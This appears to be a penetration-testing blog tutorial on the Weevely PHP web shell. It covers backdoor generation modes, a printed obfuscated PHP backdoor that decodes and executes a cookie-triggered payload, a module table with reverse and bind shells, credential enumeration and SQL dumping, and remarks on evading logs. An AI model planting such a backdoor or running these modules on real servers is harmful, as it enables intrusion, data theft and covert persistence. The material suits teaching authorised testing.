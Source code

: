 ```yaml
---
title: Weevely
tags:
- backdoor
- remote command execution
see_also:
  -
    link: Introduction to pentesting
    url: http://blog.10degres.net/introduction-to-pentesting/
---
```

Weevely is a PHP command line web shell usually used as a backdoor while performing the post exploitation phase of a penetration test. 
By default in Kali Linux, the installed version 1.1 isn't supported anymore but version 3 is available on [GitHub](https://github.com/epinna/weevely3 "Weevely on GitHub"){:class="flashlink" target="_blank"}.

Generate the backdoor:

`weevely generate.<mode> <password> <path>`

The password is optionnal but it's important to protect your customer from other users because an unwanted access can easily lead to a full access on the server with privileges escalation. There is three kinds of backdoor available but this functionnality seems to have been removed in version 3.

- **htaccess**: a single `.htaccess` file is created containing the malicious code and the right Apache directive so that all `.htaccess` files are considered as regular PHP script
- **img**: giving an existing image, Weevely will concatenate the binary datas and the malicious code, plus it also creates an `.htaccess` 
to tell Apache that the image should be considered as a regular PHP script (that means both files should be uploaded on the target server)
- **php**: this is the default, a single PHP script is generated

<!--more-->

Example:

[![Weevely generate](/images/weevely-generate.png)](/images/weevely-generate.png)

A `sessions` directory has also been created to log every command. 
No matter what creation mode you choosed the obfuscated generated PHP code looks like this:

```php
<?php
$ztqi = str_replace("h","","hshtrh_rhehphlhahche");
$hule="am9pbihhcnJhehrV9zbGhrljZSgkYSwkhrYhrygkYhrSktMykpKShrkpO2VjaG8gJzwvJhry4kay4nhrPic7fQ==";
$xhmv="PSdlcnRhr5JztlY2hvIhrCc8Jy4kay4nPihrc7ZXhrZhbChiYXNlNjRfZGVjbhr2RlKHBhryZWdfchrmVhrwbGFjZ";
$ezko="ShhcnJheSgnL1hrteXHc9XHNdLycsJy9chrcy8nKSwgYXJyYXkohrJyhrcshrJyhrsnKSwg";
$kyjf="JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYhrSk9PSdheicgJihrYgJGMoJGEpPjMpeyRr";
$tjbu = $ztqi("g", "", "basgeg6g4g_gdgegcgode");
$plri = $ztqi("y","","cyreyatye_yfuynycytyiyon");
$pigj = $plri('', $tjbu($ztqi("hr", "", $kyjf.$xhmv.$ezko.$hule))); $pigj();
?>
```

There is different ways to inject the backdoor on the target server: file upload, SQL injection and so on... 
Once you have infected your target, you can connect to the client with the password you choosed:

[![Weevely connect](/images/weevely-connect.png)](/images/weevely-connect.png)

Running `:help `will display the list of all modules available or the detailed usage informations of the given module.

| Command              | Description |
| -------------------- | ------------- |
| :audit.systemfiles   | Find wrong system files permissions |
| :audit.phpconf       | Check php security configurations |
| :audit.mapwebfiles   | Crawl and enumerate web folders files permissions |
| :audit.userfiles     | Guess files with wrong permissions in users home folders |
| :audit.etcpasswd     | Enumerate users and /etc/passwd content |
| :shell.sh            | Execute system shell command |
| :shell.php           | Execute PHP statement |
| :system.info         | Collect system informations |
| :backdoor.reversetcp | Send reverse TCP shell |
| :backdoor.tcp        | Open a shell on TCP port |
| :bruteforce.sqlusers | Bruteforce all SQL users |
| :bruteforce.sql      | Bruteforce SQL username |
| :file.edit           | Edit remote file |
| :file.mount          | Mount remote filesystem using HTTPfs |
| :file.webdownload    | Download web URL to remote filesystem |
| :file.touch          | Change file timestamps |
| :file.upload2web     | Upload binary/ascii file into remote web folders and guess corresponding url |
| :file.download       | Download binary/ascii files from the remote filesystem |
| :file.enum           | Enumerate remote paths |
| :file.read           | Read remote file |
| :file.upload         | Upload binary/ascii file into remote filesystem |
| :file.check          | Check remote files type, md5 and permission |
| :file.rm             | Remove remote files and folders |
| :file.ls             | List directory contents |
| :sql.console         | Run SQL console or execute single queries |
| :sql.dump            | Get SQL database dump |
| :net.phpproxy        | Install remote PHP proxy |
| :net.ifaces          | Print interfaces addresses |
| :net.scan            | Port scan open TCP ports |
| :net.proxy           | Install and run Proxy to tunnel traffic through target |
| :find.suidsgid       | Find files with superuser flags |
| :find.name           | Find files with matching name |
| :find.perms          | Find files with write, read, execute permissions |

Another good point for Weevely is the verbosity, the remote agent is very low footprint. Below my Apache logs after running some commands:

[![Weevely traces](/images/weevely-traces.png)](/images/weevely-traces.png)

As you may notice the user-agent has also been randomized wich is usually a good idea...
